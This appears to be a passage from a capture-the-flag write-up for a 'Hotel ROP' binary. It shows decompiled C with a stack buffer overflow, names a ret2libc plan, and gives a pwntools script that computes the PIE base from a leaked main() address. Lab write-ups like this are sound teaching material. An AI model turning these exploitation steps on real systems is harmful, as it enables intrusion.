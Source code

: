 As you can see, we are given a leak and an input. Let's decompile and look at what's going on behind the scenes.

```c
int main()
{
  alarm(0xAu);
  printf("Welcome to Hotel ROP, on main street %p\n", main);
  vuln();
  return 0;
}

int vuln()
{
  int result;
  char s[28];
  int v2;

  puts("You come here often?");
  fgets(s, 256, stdin);
  if ( v2 )
    result = puts("I think you should come here more often.");
  else
    result = puts("Oh! You are already a regular visitor!");
  return result;
}

```

As you can see, we have a leak which points to `main()`, and we have a **buffer overflow** in `vuln()` as we are given **256 bytes of input** into a variable that holds **28 bytes of data**.

With this, it becomes rather apparent that we have to do a `ret2libc` in order to spawn a shell and win. However, since this binary is `PIE` enabled, we have to first calculate the `PIE` base.


## Exploitation
---

### Stage 1: Calculate PIE base

Since we know that our leak is the address of `main()`, we can easily calculate our offset with `elf.sym.main` and set it as the base_address by saving it to `elf.address`.

```py
from pwn import *

p = process('./hotel_rop') # run the process
context.binary = elf = ELF('hotel_rop') # set elf and context
libc = elf.libc # set libc

with log.progress('Calculating PIE base'): # cool loading bar !
  p.recvuntil('main street ')
  mainleak = int(p.recvline().rstrip(b'\n'), 16)

  elf.address = mainleak - elf.sym.main # use elf to save find main address and save PIE base into elf.address
  with log.success('PIE base @ elf.address')
```
